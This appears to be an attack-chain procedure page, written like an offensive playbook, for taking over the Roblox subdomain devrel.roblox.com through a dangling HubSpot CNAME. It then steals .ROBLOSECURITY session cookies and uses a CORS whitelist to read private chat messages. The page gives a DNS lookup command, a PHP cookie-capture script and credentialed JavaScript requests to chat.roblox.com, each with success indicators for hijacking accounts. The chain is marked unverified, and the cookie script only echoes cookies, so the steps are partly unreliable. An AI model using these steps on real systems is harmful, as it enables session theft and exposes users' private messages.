

---

# Subdomain Takeover of devrel.roblox.com Leading to Cookie Theft and CORS Exploitation for Account Takeover

Multi-stage attack chain demonstrating a complete attack workflow exploiting DNS misconfigurations and CORS policies on Roblox's infrastructure.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~30 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/HubSpot]]
- DNS enumeration tools (e.g., dig, nslookup)
- Web hosting setup for malicious scripts

### Target Environment

- Web platform with DNS records pointing to third-party services like HubSpot
- Services: Roblox web services, chat.roblox.com
- Required ports: 80, 443 (HTTP/HTTPS)
- Network access: Public internet access to query DNS and claim services

### Initial Access Requirements

- No prior credentials needed; relies on public DNS misconfigurations
- Ability to register/claim expired third-party accounts (e.g., HubSpot)
- Victim interaction: Users must visit the malicious subdomain while authenticated to Roblox

## Detailed Attack Procedures

### Step 1: Discover Subdomain Takeover Vulnerability
procedure: [[procedures/Discover-Subdomain-Takeover-Vulnerability]]

**Objective**: Identify dangling CNAME records pointing to unclaimed third-party services, enabling subdomain takeover.

**Instructions**: Query DNS for subdomains of the target domain (e.g., roblox.com) using tools like dig to check for CNAME records. Look for records pointing to services like HubSpot that appear expired or unclaimed. Verify by attempting to access the pointed resource.

For example, query devrel.roblox.com:

```bash
dig CNAME devrel.roblox.com
```

Expected output: CNAME pointing to an unclaimed HubSpot instance (e.g., hs-sites.com or similar).

Then, check if the HubSpot instance is claimable by visiting the URL and seeing if it's available for registration.

**Expected Output**: Confirmation of a dangling CNAME to an unclaimed service.

**Success Indicators**:
- CNAME record found pointing to expired/unclaimed service
- Service dashboard shows option to claim the account

### Step 2: Claim Subdomain and Host Malicious Content
procedure: [[procedures/Claim-Subdomain-and-Host-Malicious-Content]]

**Objective**: Take control of the subdomain by claiming the third-party service and deploy scripts to steal session cookies from visiting users.

**Instructions**: Register or claim the expired HubSpot account associated with the CNAME. Once claimed, upload and host a PHP script on the subdomain to capture cookies. The script leverages the shared cookie scope of *.roblox.com to access .ROBLOSECURITY tokens.

Use the following PHP script hosted via HubSpot's content management:

Execute [[commands/php-cookie-theft-script]]:

```php
<?php echo "Cookies received: <br>"; foreach($_COOKIE as $key => $val) { echo "Set-Cookie: $key=$val; Domain=.roblox.com; path=/<br>\n"; } ?>
```

Trick authenticated users into visiting devrel.roblox.com to trigger cookie exfiltration.

**Expected Output**: Script outputs visitor cookies, including .ROBLOSECURITY, which can be collected and used for session hijacking.

**Success Indicators**:
- Subdomain resolves to attacker-controlled content
- Cookies captured from test visits (use a proxy to simulate)
- Successful authentication with stolen .ROBLOSECURITY token

### Step 3: Exploit CORS to Read Chat Messages
procedure: [[procedures/Exploit-CORS-to-Read-Chat-Messages]]

**Objective**: Use the taken-over subdomain's whitelisted status to perform cross-origin requests and exfiltrate private chat data from chat.roblox.com.

**Instructions**: Host JavaScript on the controlled subdomain that makes authenticated CORS requests to chat.roblox.com. The devrel.roblox.com origin is incorrectly whitelisted, allowing credentialed requests.

Deploy the following HTML/JavaScript via HubSpot:

Execute [[commands/javascript-cors-chat-reader]]:

```html
<h2>CORS To Read Chat</h2><div id="demo"><button type="button" onclick="cors()">Chat Reader @ Roblox</button></div><script>function cors(){var xhttp = new XMLHttpRequest(); xhttp.onreadystatechange=function(){if(this.readyState == 4 && this.status == 200){ document.getElementById("demo").innerHTML = document.write(this.responseText);}}; xhttp.open("GET","https://chat.roblox.com/v2/get-messages?conversationId=469104576&pageSize=3",true); xhttp.withCredentials = true; xhttp.send();}</script>
```

Visit the page while authenticated to Roblox to fetch and display chat messages.

**Expected Output**: Private chat messages from the specified conversation ID rendered on the page.

**Success Indicators**:
- CORS request succeeds without preflight errors
- Chat messages retrieved and displayed
- No authentication prompts during request

## Attack Chain Summary

### Key Achievements

1. Full takeover of devrel.roblox.com via HubSpot claim, enabling arbitrary content hosting
2. Theft of .ROBLOSECURITY cookies for widespread account takeover
3. Unauthorized access to private chat messages via CORS exploitation

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Steal Web Session Cookie]] Steal Web Session Cookie
- [[JavaScript]] JavaScript

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution
- [[Collection]] Collection

---

*Last updated: 2023-10-01T12:00:00Z*
